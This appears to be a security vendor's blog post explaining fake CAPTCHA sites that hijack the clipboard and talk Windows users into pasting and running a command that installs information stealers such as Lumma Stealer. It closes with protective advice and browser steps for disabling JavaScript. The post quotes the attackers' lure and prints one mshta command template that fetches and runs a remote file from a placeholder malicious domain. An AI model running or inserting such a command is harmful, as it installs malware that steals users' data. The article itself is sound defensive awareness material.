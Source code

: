 ```yaml
---
title: "Fake CAPTCHA websites hijack your clipboard to install information stealers"
date: 2025-03-19
---
```


There are more and more sites that use a clipboard hijacker and instruct victims on how to infect their own machine.

I realize that may sound like something trivial to steer clear from, but apparently it’s not because the social engineering behind it is pretty sophisticated.

At first, these attacks were more targeted at people that could provide cybercriminals a foothold at a targeted company, but their popularity has grown so much that now anyone can run into one of them.

It usually starts on a website that promises visitors some kind of popular content: Movies, music, pictures, news articles, you name it.

Nobody will think twice when they are asked to prove they are not a robot.

![content site asking to prove you're not a robot](https://www.malwarebytes.com/wp-content/uploads/sites/2/2025/03/Captcha.jpg)

But the next step in this method isn’t what you would normally see. If you use the checkbox, you’ll be forwarded to something that looks like this:

![instructions to infect yourself](https://www.malwarebytes.com/wp-content/uploads/sites/2/2025/03/clipboard-hijacker.jpg)

> “To better prove you are not a robot, please:
> 
> 1. Press & hold the Windows Key + R.
> 
> 4. In the verification windows, press Ctrl + V.
> 
> 7. Press Enter on your keyboard to finish.  
>     
> 
> You will observe and agree:  
> “I’m not a robot – reCAPTCHA Verification ID: 8253”
> 
> Perform the steps above to finish verification.”

While these instructions may seem harmless enough, if you follow the steps you will actually be infecting yourself with malware—most likely an information stealer. In the background, the website you visited copied a command to your clipboard. In Chromium based browsers (which are almost all the popular ones) a website can only write to your clipboard with your permission. But Windows was under the assumption that you agreed to that when you checked the checkbox in the first screen.

What the obstructions in the prompt are telling you to do is:

1. Open the Run dialog box on Windows.

4. Paste the content of your clipboard into that dialog box.

7. Execute the command you just pasted.

They are not lying about what you will “observe”, but what they don’t tell you is that that’s only the last part of what you pasted, and what you are seeing is not really part of the command but just a comment added behind it.

But under normal circumstances, this is what will be visible.

<figure>

![last part of the pasted content in the Run dialog box](https://www.malwarebytes.com/wp-content/uploads/sites/2/2025/03/run_command.jpg)

<figcaption>

You’ll only see the last part of the pasted content

</figcaption>

</figure>

The first part of what the target was instructed to paste are variations–sometimes obfuscated—of:

```
mshta https://{malicious.domain}/media.file
```

Mshta is a command that will trigger the legitimate Windows executable mshta.exe. But mshta will fetch the malicious media file from the specified domain and run it. The name of the media file may look perfectly fine. We have seen mp3, mp4, jpg, jpeg, swf, html, and there will be other possibilities.

What the files are in reality is an encoded Powershell command which will run invisibly and download the actual payload. For a while, the malware we were seeing downloaded was almost exclusively the Lumma Stealer infostealer, but recently we’ve also found campaigns that use the same method to spread the SecTopRAT. Both of these are designed to steal sensitive data from your machine.

## How to stay safe

There are a few things you can do to protect yourself from falling victim to these and similar methods:

- Do not follow instructions provided by some website you visited without thinking it through.

- Use an active anti-malware solution that blocks malicious websites and scripts.

- Use a browser extension that blocks malicious domains and scams.

- Disable JavaScript in your browser before visiting unknown websites.

The clipboard access is triggered by a JavaScript function document.execCommand(‘copy’).  Disabling JavaScript will stop that from happening, but it has the disadvantage that it will break many websites that you visit regularly. What I do is use different browsers for different purposes.

Here are step-by-step instructions on how to disable JavaScript in several popular browsers:

### How to disable JavaScript in **Chrome**

- Open Chrome and click on the three-dot menu icon in the top right corner.

- Select **Settings** from the dropdown menu.

- On the left side, click on **Privacy and security**.

- Click on **Site setting**s.

- Scroll down to the **Content** section and click on **JavaScript**.

Toggle the switch to **Don’t allow sites to use JavaScript** to **Disable JavaScript for all sites**. You can also add specific sites to block or allow JavaScript by clicking on **Add** under the **Block or Allow** sections.

### How to disable JavaScript in Firefox

- Enter **about:config** into the search bar and select **Accept the Risk and Continue**.

- Enter **javascript.enabled** into the search box at the top of the page.

- Select the **javascript.enabled** toggle to change the value to **false**.

### How to disable JavaScript in Opera

- Launch Opera and click on the settings icon.

- Select **Privacy & Security** from the options.

- Click on **Site Settings**.

- Select the **JavaScript** option.

- Choose **Don’t allow sites to use JavaScript** to disable JavaScript for all sites.

To disable JavaScript for specific sites, click **Add** under the **Not allowed to use JavaScript** section and enter the site’s URL.

### How to disable JavaScript in Edge

- Open Microsoft Edge and click on the three-dot menu icon in the top right corner.

- Select **Settings** from the dropdown menu.

- In the left sidebar, click on **Cookies** and **Site Permissions**.

- Scroll down to the **All Permissions** section and select JavaScript.

Toggle the switch to disable JavaScript. You can also manage JavaScript settings for individual sites by adding them to the allow or block lists.

* * *

**We don’t just report on threats—we remove them**

Cybersecurity risks should never spread beyond a headline. Keep threats off your devices by downloading Malwarebytes today.

Go to Source
